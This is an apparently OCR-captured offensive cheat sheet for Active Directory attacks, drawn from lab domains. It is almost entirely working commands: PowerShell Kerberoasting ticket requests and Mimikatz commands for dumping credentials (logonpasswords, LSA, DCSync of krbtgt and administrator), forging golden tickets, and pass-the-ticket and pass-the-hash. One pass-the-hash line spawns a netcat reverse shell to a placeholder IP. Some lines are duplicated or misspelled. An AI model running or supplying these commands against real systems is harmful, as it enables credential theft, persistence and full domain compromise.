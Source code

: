 


## targeting single user
```powershell
PS> Add-Type -AssemblyName System.IdentityModel
PS> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "vmware/inlanefreight.local:1433"
PS> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "vmware/inlanefreight.local"
```

# pth-tookit
https://github.com/byt3bl33d3r/pth-toolkit

# Mimikatz
```zsh
PS> mimikatz.exe
mimikatz# privilege::debug
mimikatz# base64 /out:true
mimikatz# kerberos::list /export
mimikatz# kerberos::purge
## linux
# $ echo "<base64 TestUser>" |  tr -d \\n
# $ cat encoded_file | base64 -d > TestUser.kirbi
mimikatz# kerberos::ptt Target.kirbi
mimikatz# kerberos::golden /sid:TargetSid /domain:hoge.com /target: TestWeb.corp.com /service:http /rc4:TargetRc4 /ptt /user:TestUser
mimikatz# kerberos::golden /user:TestUser /domain:hoge.com /sid:TargetSid /krbtgt:KrbtgtNtlmHash /ptt
mimikatz# tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc
mimikatz# tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc
mimikatz# tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc
mimikatz# sekurlsa::logonpasswords
mimikatz# sekurlsa::tickets /export
## PS> dir .\
mimikatz# sekurlsa::pth /user:TestUser /domain:hoge.com /rc4:TestRc4Hash /run:"c:\tools\nc64.exe -e cmd.exe XXX.XXX.XXX.XXX 5556"
mimikatz# sekurlsa::pth /user:TestUser /domain:hoge.com /ntlm:TestNtlmHash /run:powershell
mimikatz# lsadump::lsa /inject /name:TestUser
mimikarz# lsadump::lsa /patch
mimikatz# lsadump::dcsync /user:hoge\TestUser
mimikatz# lsadump::dcsync /user:hoge\krbtgt
mimikatz# lsadump::dcsync /domain:HOGE.COM /user:HOGE\administrator
mimikatz# misc::skelton
mimikatz# misc::cmd
```
